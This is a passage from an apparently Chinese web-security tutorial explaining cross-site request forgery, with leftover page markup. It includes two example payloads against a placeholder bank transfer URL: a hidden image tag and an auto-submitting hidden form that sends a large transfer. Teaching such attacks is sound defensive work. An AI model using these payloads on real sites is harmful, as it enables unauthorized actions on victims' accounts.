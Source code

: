 2. 登录受信任网站A，并在本地生成Cookie

3. 在不登出A的情况下，访问危险网站B" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="javascript hljs"><code class="js"><span class="hljs-number">1.</span> 采用cookie来进行用户校验

<span class="hljs-number">2.</span> 登录受信任网站A，并在本地生成Cookie

<span class="hljs-number">3.</span> 在不登出A的情况下，访问危险网站B</code></pre>
<p>一般在<code>(4)</code>处<code>恶意网站(B)</code>的攻击手段如下（必须是指向<code>A</code>的地址，否则无法带上cookie）：</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="// 1.譬如在网站内的图片资源中潜入恶意的转账操作
<img src=http://www.bank.example/transfer?toBankId=hello&amp;amount=1000000 width='0' height='0'>

// 2.构建恶意的隐藏表单，并通过脚本提交恶意请求
<iframe style=&quot;display: none;&quot; name=&quot;csrf-frame&quot;></iframe>
<form method='POST' action='http://www.bank.example/transfer' target=&quot;csrf-frame&quot; id=&quot;csrf-form&quot;>
  <input type='hidden' name='toBankId' value='hello'>
  <input type='hidden' name='amount' value='1000000'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById(&quot;csrf-form&quot;).submit()</script>" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="xml hljs"><code class="html">// 1.譬如在网站内的图片资源中潜入恶意的转账操作
<span class="hljs-tag">&lt;<span class="hljs-name">img</span> <span class="hljs-attr">src</span>=<span class="hljs-string">http://www.bank.example/transfer?toBankId</span>=<span class="hljs-string">hello&amp;amount</span>=<span class="hljs-string">1000000</span> <span class="hljs-attr">width</span>=<span class="hljs-string">'0'</span> <span class="hljs-attr">height</span>=<span class="hljs-string">'0'</span>&gt;</span>

// 2.构建恶意的隐藏表单，并通过脚本提交恶意请求
<span class="hljs-tag">&lt;<span class="hljs-name">iframe</span> <span class="hljs-attr">style</span>=<span class="hljs-string">"display: none;"</span> <span class="hljs-attr">name</span>=<span class="hljs-string">"csrf-frame"</span>&gt;</span><span class="hljs-tag">&lt;/<span class="hljs-name">iframe</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-name">form</span> <span class="hljs-attr">method</span>=<span class="hljs-string">'POST'</span> <span class="hljs-attr">action</span>=<span class="hljs-string">'http://www.bank.example/transfer'</span> <span class="hljs-attr">target</span>=<span class="hljs-string">"csrf-frame"</span> <span class="hljs-attr">id</span>=<span class="hljs-string">"csrf-form"</span>&gt;</span>
  <span class="hljs-tag">&lt;<span class="hljs-name">input</span> <span class="hljs-attr">type</span>=<span class="hljs-string">'hidden'</span> <span class="hljs-attr">name</span>=<span class="hljs-string">'toBankId'</span> <span class="hljs-attr">value</span>=<span class="hljs-string">'hello'</span>&gt;</span>
  <span class="hljs-tag">&lt;<span class="hljs-name">input</span> <span class="hljs-attr">type</span>=<span class="hljs-string">'hidden'</span> <span class="hljs-attr">name</span>=<span class="hljs-string">'amount'</span> <span class="hljs-attr">value</span>=<span class="hljs-string">'1000000'</span>&gt;</span>
  <span class="hljs-tag">&lt;<span class="hljs-name">input</span> <span class="hljs-attr">type</span>=<span class="hljs-string">'submit'</span> <span class="hljs-attr">value</span>=<span class="hljs-string">'submit'</span>&gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-name">form</span>&gt;</span>